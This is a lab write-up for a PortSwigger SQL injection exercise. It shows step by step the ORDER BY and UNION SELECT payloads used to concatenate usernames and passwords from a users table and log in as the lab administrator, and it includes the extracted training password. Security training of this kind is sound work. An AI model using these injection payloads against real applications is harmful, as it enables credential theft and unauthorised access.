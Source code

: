 # UNION attack, retrieving multiple values in a single column

Lab: [SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

### Description

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application’s response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

### Steps

First, we know there are only 2 columns and not 3, since `category=Pets' ORDER BY 2--` doesn’t return an error, but `category=Pets' ORDER BY 3--` does.

We also know that the returned columns are an Integer and a String, since the following query works without any errors: `category=Pets' UNION SELECT 1, 'a'--`

Therefore, we need to extract the username and password columns, which are usually two separate columns of data type String, from a single column.

You can concatenate multiple strings together to create a single string, using the syntax provided below:

| Database   | Syntax                                                                                                              |
| ---------- | ------------------------------------------------------------------------------------------------------------------- |
| Oracle     | `'foo'\\|'bar'`                                                                                                     |
| Microsoft  | `'foo'+'bar'`                                                                                                       |
| PostgreSQL | `'foo'\\|'bar'`                                                                                                     |
| MySQL      | <p><code>'foo' 'bar'</code> <em>Note the space between the two strings</em><br><code>CONCAT('foo','bar')</code></p> |

Based on this, let’s concatenate the username and password and separate them with a `~`, using the following injection: `category=Pets' UNION SELECT NULL, username || '~' || password FROM users--`

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Et voilà! The returned string is `administrator~f286lusiqzjnv720jo3k`. Let’s test it out:\


<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

and it’s solved!
